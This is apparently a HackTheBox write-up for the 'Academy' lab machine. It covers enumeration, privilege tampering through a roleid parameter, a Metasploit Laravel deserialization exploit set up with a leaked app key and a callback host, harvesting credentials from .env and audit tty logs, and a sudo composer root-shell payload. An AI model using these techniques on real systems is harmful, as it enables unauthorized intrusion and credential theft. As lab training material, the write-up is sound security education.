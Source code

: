 ```yaml
---
title: "HackTheBox - Academy"
author: Nasrallah
description: ""
date: 2023-02-19 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, sudo, logs, adm, metasploit, rce]
img_path: /assets/img/hackthebox/machines/academy
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Academy](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com).

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.


```terminal
Nmap scan report for 10.10.10.215
Host is up (0.27s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c090a3d835256ffa3306cf8013a0a553 (RSA)
|   256 2ad54bd046f0edc93c8df65dabae7796 (ECDSA)
|_  256 e16414c3cc51b23ba628a7b1ae5f4535 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://academy.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found two open ports, port 22 running OpenSSH and port 80 is Apache http web server.

## Web

We saw from the nmap scan that the web server redirects to the hostname academy.htb, let's add it to /etc/hosts and navigate to it.

![](1.png)

It's the welcome page for academy with two links, one for login and the other for register.

I went to the login page and tried some default credentials and sqli but no luck with that.

Let's register a user.

![](2.png)

Now let's login.

![](3.png)

This is the dashboard of the actual HTB academy, but none of the links work.

### gobuster

Let's run a directory/file scan.

```terminal
===============================================================
[+] Url:                     http://academy.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2023/02/11 11:01:52 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 276]
/.hta.php             (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/.htaccess.php        (Status: 403) [Size: 276]
/.htpasswd.php        (Status: 403) [Size: 276]
/admin.php            (Status: 200) [Size: 2633]
/admin.php            (Status: 200) [Size: 2633]
/config.php           (Status: 200) [Size: 0]   
/home.php             (Status: 302) [Size: 55034] [--> login.php]
/images               (Status: 301) [Size: 311] [--> http://academy.htb/images/]
/index.php            (Status: 200) [Size: 2117]                                
/index.php            (Status: 200) [Size: 2117]                                
/login.php            (Status: 200) [Size: 2627]                                
/register.php         (Status: 200) [Size: 3003]                                
/server-status        (Status: 403) [Size: 276]                                 
                                                                                
===============================================================

```

We found admin.php which is another login page, we have no credentials for it.

Returning to the register page, i used burp to intercept the register request and found the following.

![](4.png)

The parameter `roleid` with value 0 gets sent with the register request, I used repeater to send another register request but changed to `roleid` value to 1.

With that i managed to login in the admin.php page.

![](5.png)

We see a table that reveals a subdomain, let's add it to /etc/hosts and check it out.

![](6.png)

This looks like a page used by developers to check source code.

![](7.png)

Scrolling down we find that the website uses laravel and we can see the app key.

Let's see if there are any exploit for `laravel`

![](8.png)


# **Foothold**

Let's start msfconsole and use `exploit/unix/http/laravel_token_unserialize_exec`.

We need set the following options

```bash
[msf](Jobs:0 Agents:0) exploit(unix/http/laravel_token_unserialize_exec) >> set app_key dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
app_key => dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
[msf](Jobs:0 Agents:0) exploit(unix/http/laravel_token_unserialize_exec) >> set rhosts 10.10.10.215
rhosts => 10.10.10.215
[msf](Jobs:0 Agents:0) exploit(unix/http/laravel_token_unserialize_exec) >> set vhost dev-staging-01.academy.htb
vhost => dev-staging-01.academy.htb
[msf](Jobs:0 Agents:0) exploit(unix/http/laravel_token_unserialize_exec) >> set lhost tun0
lhost => 10.10.17.90
```

Now let's run the exploit.

![](9.png)

# **Privilege Escalation**

Checking the website files, we find a `.env` file with some credentials.

![](10.png)

Looking for a user to twitch to using the password i found 6 users in /home, so i run `locate user.txt` to locate the user flag and found the user to switch to.

![](11.png)

By running the command id, we see that the user is part of `adm` group, which is a group that can read log files in `/var/log`.

Checking multiple log files, we go to `/var/log/audit` where we use `aureport` to get a summary report from all files in /var/log/audit.

![](12.png)

Now let's run `aureport --tty` to get a report about tty keystrokes

![](13.png)

We can see someone tried to switch to mrb3n and pasted a password.

Let's use that to ssh as `mrb3n`.

Now let's check out current privileges.

```terminal
mrb3n@academy:~$ sudo -l
Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer

```

We can run composer as root.

A quick search on GTFOBins, we find the commands we need to run to get a root shell.

```bash
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
```

![](20.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).